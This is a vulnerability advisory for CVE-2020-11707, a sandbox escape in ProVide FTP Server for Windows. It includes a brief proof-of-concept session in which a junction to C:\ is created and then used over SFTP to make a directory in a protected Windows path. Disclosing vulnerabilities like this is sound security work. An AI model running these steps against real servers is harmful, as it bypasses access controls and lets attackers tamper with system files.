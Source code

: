 # Jail Escape via Symlink

## Summary

It was identified that ProVide FTP Server (formerly zFTP) for Windows, doesn't enforce permission over Windows Symlinks or Junctions. As a result, a low privileged user (non-admin), can craft a Junction Link in a directory he has full control, breaking out of the sandbox.

## VulDB-Like Summary

A vulnerability has been found in ProVide FTP Server (formerly zFTP) for Windows up to v13.1 and classified as problematic. This vulnerability affects some unknown functionality. The manipulation with an unknown input leads to a sandbox bypass vulnerability. The CWE definition for the vulnerability is CWE-284. As an impact it is known to affect confidentiality, integrity, and availability.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-11707. The attack should be launched initiated locally. The exploitation needs multiple authentications to be performed. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

#### User 1 - Low Privileged FTP User

Root Directory: C:\Users\lowpriv\Desktop\
Permission on Root Directory: 
* Files: Read, Write, Delete, Append 
* Dirs: List, Make, Delete, +Subdirs

#### User 2 - Low Privileged Windows User

Windows User: lowpriv
Standard User, no admin rights

```
C:\Users\lowpriv\Desktop> whoami
lowpriv
C:\Users\lowpriv\Desktop> mklink /J escape C:\
Junction created for escape <<===>> C:\
C:\Users\lowpriv\Desktop> mkdir C:\Windows\security\audit\pwnd
Access is denied.
C:\Users\lowpriv\Desktop> sftp lowpriv@127.0.0.1
Connected to lowpriv@127.0.0.1.
sftp> dir
Google Chrome.lnk  desktop.ini        escape
sftp> mkdir /escape/Windows/security/audit/pwnd
sftp> cd /escape/Windows/security/audit/pwnd
sftp> pwd
Remote working directory: /escape/Windows/security/audit/pwnd/
sftp>
```

## Remediation

No official fix currently exists for this vulnerability.

## References

* https://cwe.mitre.org/data/definitions/284.html
* https://cwe.mitre.org/data/definitions/501.html
* https://cwe.mitre.org/data/definitions/266.html 
